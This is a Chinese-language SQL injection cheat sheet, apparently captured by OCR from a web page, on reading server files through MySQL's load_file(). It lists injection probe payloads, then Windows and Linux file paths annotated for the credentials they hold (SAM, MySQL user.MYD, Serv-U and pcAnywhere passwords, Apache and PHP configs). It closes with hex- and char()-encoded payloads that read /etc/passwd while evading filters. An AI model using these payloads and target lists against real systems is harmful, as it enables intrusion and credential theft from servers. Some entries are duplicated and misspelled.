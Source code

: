 使用条件：

（1）必须有权限读取并且文件必须完全可读 and (select count(*) from mysql.user)>0/*如果结果返回正常，说明具有可读写权限*/，and (select count(*) from mysql.user)>0/*返回错误，应该是管理员给数据库账号降权*/

（2）欲读取文件必须在服务器上

（3）必须指定文件的完整路径

（4）欲读取文件必须小于max_allowed_packet。如果文件不存在或者因为上面任一原因不能被读取，函数返回空。

**Mysql注入load_file常用路径：**

    WINDOWS下:
    c:/boot.ini //查看系统版本
    c:/windows/php.ini //php配置信息
    c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
    c:/winnt/php.ini
    c:/winnt/my.ini
    c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
    c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
    c:\Program Files\Serv-U\ServUDaemon.ini
    c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
    c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
    c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
    c:\Program Files\RhinoSoft.com\ServUDaemon.exe
    C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件
    //存储了pcAnywhere的登陆密码
    c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
    c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
    c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
    d:\APACHE\Apache2\conf\httpd.conf
    C:\Program Files\mysql\my.ini
    C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

    LUNIX/UNIX 下:
    /usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
    /usr/local/apache2/conf/httpd.conf
    /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
    /usr/local/app/php5/lib/php.ini //PHP相关设置
    /etc/sysconfig/iptables //从中得到防火墙规则策略
    /etc/httpd/conf/httpd.conf // apache配置文件
    /etc/rsyncd.conf //同步程序配置文件
    /etc/my.cnf //mysql的配置文件
    /etc/redhat-release //系统版本
    /etc/issue
    /etc/issue.net
    /usr/local/app/php5/lib/php.ini //PHP相关设置
    /usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟   网站设置
    /etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
    /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
    /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
    /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
    /etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
    /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
    /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
    /usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
    /etc/sysconfig/iptables 查看防火墙策略
    load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
    replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
    replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
